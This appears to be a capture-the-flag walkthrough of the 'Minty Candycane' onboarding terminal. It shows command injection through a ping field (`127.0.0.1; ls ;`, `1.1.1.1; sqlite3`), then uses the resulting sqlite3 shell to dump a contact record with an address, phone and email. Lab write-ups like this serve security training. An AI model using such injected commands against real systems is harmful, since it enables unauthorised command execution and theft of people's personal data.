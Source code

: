 
## Terminals
* Exit vi (done):
type `:q` and you're done.

# Minty Candycane Employee onboard (WIP)
1. First enter your information, and you'll see how the information is saved in a SQLite DB.
2. Use the "Test system" option and enter an IP. You'll notice it will ping.
3. Try to inject commands, so I've entered `127.0.0.1; ls ; ` and I've got this output:
```bash
Validating data store for employee onboard information.
Enter address of server: 127.0.0.1 ; ls -lah ;
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.036 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.043 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.043 msFtang

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2048ms
rtt min/avg/max/mdev = 0.036/0.040/0.043/0.008 ms
total 5.4M
drwxr-xr-x 1 elf  elf  4.0K Dec 20 20:49 .
drwxr-xr-x 1 root root 4.0K Dec 14 16:17 ..
-rw-r--r-- 1 elf  elf   220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 root root   95 Dec 14 16:13 .bashrc
drwxr-xr-x 3 elf  elf  4.0K Dec 20 20:46 .cache
drwxr-xr-x 3 elf  elf  4.0K Dec 20 20:47 .local
-rw-r--r-- 1 root root 3.8K Dec 14 16:13 menu.ps1
-rw-rw-rw- 1 root root  24K Dec 20 20:49 onboard.db
-rw-r--r-- 1 elf  elf   655 May 16  2017 .profile
-rwxr-xr-x 1 root root 5.3M Dec 14 16:13 runtoanswer
onboard.db: SQLite 3.x database

```
4. Now we'll need to find a way to explore that onboard.db SQLIte DB.
```bash
Validating data store for employee onboard information.
Enter address of server: 1.1.1.1; sqlite3
connect: Network is unreachable
SQLite version 3.11.0 2016-02-15 17:29:24
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> .open onboard.db
sqlite> .tables
onboard
sqlite> .schema onboard
CREATE TABLE onboard (
    id INTEGER PRIMARY KEY,
    fname TEXT NOT NULL,
    lname TEXT NOT NULL,
    street1 TEXT,
    street2 TEXT,
    city TEXT,
    postalcode TEXT,
    phone TEXT,
    email TEXT
);
sqlite> select * from onboard where fname like 'Chan' OR lname LIKE 'Chan';
84|Scott|Chan|48 Colorado Way||Los Angeles|90067|4017533509|scottmchan90067@gmail.com
sqlite>
```
